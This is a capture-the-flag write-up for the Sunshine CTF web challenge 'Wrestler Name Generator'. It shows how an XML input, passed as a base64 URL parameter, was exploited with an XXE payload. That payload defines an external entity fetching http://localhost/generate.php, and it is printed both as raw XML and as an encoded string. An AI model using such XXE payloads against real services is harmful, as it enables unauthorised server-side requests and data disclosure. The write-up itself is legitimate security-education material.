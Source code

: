 # Sunshine CTF

## Challenge #1: Patches Punches (reversing)


## Challenge #2: Wrestler Name Generator (web)

This challenge presented a website which, upon entering the first and last name and choosing a weapon of choice, would generate a wrestler name. The landing page looks like this:

![Screenshot](/ctf/images/pic1.png?raw=true)

**Screenshot of the main landing page**

![Screenshot](/ctf/images/pic2.png?raw=true)

**Screenshot of the result page**

The first step I took was to look at the page source, and I found the javascript at the bottom of the page (included below). I noticed that the main purpose of the JS is to pass the entered first and last name as an XML object, encoded as base-64 and made safe for URL as a GET parameter to the page /generate.php?input=XMLSTRING.

```javascript
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
```

Similarly, examining the source code of the result page (second screenshot) yielded this interesting comment: 

```
<!--hacker name functionality coming soon!-->
<!--if you're trying to test the hacker name functionality, make sure you're accessing this page from the web server-->
<!--<h2>Your Hacker Name Is: REDACTED</h2>-->
```

Immediately, I thought about exploiting the common XXE (XML External Entity) vulnerability. Rather than entering the XML exploit into the input element of the website, I tried passing the XML string drectly into the URL `http://ng.sunshinectf.org/generate.php?input=[XML]`.

The XML object format was this:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<input>
  <firstName>firstName</firstName>
  <lastName>lastName</lastName>
</input>
```

Encoded into a URL safe base-64 string, this XML object became this: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BZmlyc3ROYW1lPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPmxhc3ROYW1lPC9sYXN0TmFtZT4KPC9pbnB1dD4%3D`


```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "http://localhost/generate.php" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Whhich was translated into this string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZXJudyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImh0dHA6Ly9sb2NhbGhvc3QvZ2VuZXJhdGUucGhwIiA%2BIF0%2BPGlucHV0PjxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT48L2lucHV0Pg%3D%3D`, which passed to the /generate.php page yielded the flag:

![Screenshot](/ctf/images/pic5.png?raw=true)
